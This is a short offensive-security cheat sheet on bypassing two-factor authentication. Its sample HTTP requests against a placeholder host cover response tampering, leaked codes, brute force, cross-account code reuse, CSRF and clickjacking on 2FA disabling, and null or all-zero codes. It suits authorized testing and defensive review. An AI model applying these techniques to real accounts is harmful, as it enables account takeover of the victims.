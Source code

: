 # Bypass Two-Factor Authentication

1. Response manipulation

The response is
```
HTTP/1.1 404 Not Found
...
{"code": false}
```
Try this to bypass
```
HTTP/1.1 404 Not Found
...
{"code": true}
```

2. Status code manipulation

The response is
```
HTTP/1.1 404 Not Found
...
{"code": false}
```
Try this to bypass
```
HTTP/1.1 200 OK
...
{"code": false}
```

3. 2FA Code in Response

Always check the response!
```
POST /req-2fa/
Host: vuln.com
...
email=victim@gmail.com
```
The response is
```
HTTP/1.1 200 OK
...
{"email": "victim@gmail.com", "code": "101010"}
```

4. JS Files may contain info about the 2FA Code (Rare case)
   
5. Bruteforce the 2FA code
   
6. Missing 2FA Code integrity validation, code for any user account can be used
```
POST /2fa/
Host: vuln.com
...
email=attacker@gmail.com&code=382923
```
```
POST /2fa/
Host: vuln.com
...
email=victim@gmail.com&code=382923
```
   
7. No CSRF protection on disabling 2FA, also there is no auth confirmation.

8. 2FA gets disabled on password change/email change. 

9. Clickjacking on 2FA disabling page, by iframing the 2FA Disabling page and lure the victim to disable the 2FA. 
    
10. Enabling 2FA doesn't expire previously active sessions, if the session is already hijacked and there is a session timeout vuln.

11. 2FA code reusability, same code can be reused.

12. Enter code 000000
```
POST /2fa/
Host: vuln.com
...
code=00000
```

13. Enter code "null"
```
POST /2fa/
Host: vuln.com
...
code=null
```

## References
* [Harsh Bothra](https://twitter.com/harshbothra_)
* Other writeup